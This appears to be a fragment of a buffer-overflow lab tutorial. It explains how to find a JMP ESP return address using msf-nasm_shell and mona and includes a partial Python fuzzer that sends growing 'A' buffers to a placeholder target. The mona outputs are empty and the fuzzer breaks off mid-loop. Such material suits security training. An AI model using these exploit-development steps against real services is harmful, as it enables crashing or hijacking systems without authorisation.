 
*Finding Return Address*

> Restart and run the application.

Find if `ESP` or any other register points to the buffer. Find the `jump op code` for that address. Use the address in `EIP` to point the payload.

```bash
msf-nasm_shell
```

```text
nasm > jmp esp
00000000  FFE4              jmp esp
```

Find the module to be used for replacing `EIP` with return address. The module should not contain `ASLR` protection nor should contain address with `00` or other bad chars.

```text
!mona modules
```

```text

```


Find the address of the `op code`.

```text
!mona find -s "\xff\xe4" -m ""
```

```text

```


**Scripts**

*fuzzer.py*

```python
#!/usr/bin/env python3

import socket, time, sys

IP = "MACHINE_IP"

PORT = PORT
TIMEOUT = 5
PREFIX = "OVERFLOW1 "

PAYLOAD_STRING = PREFIX + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(TIMEOUT)
            s.connect((IP, PORT))

            # if there is banner being received;
            # check with nc to confirm;
            # remove if not needed
            s.recv(1024)

            # sending payload here.
            print("Fuzzing with {} bytes".format(len(PAYLOAD_STRING) - len(PREFIX)))
            s.send(bytes(PAYLOAD_STRING, "latin-1"))
            # s.send((PAYLOAD_STRING.encode()))

```
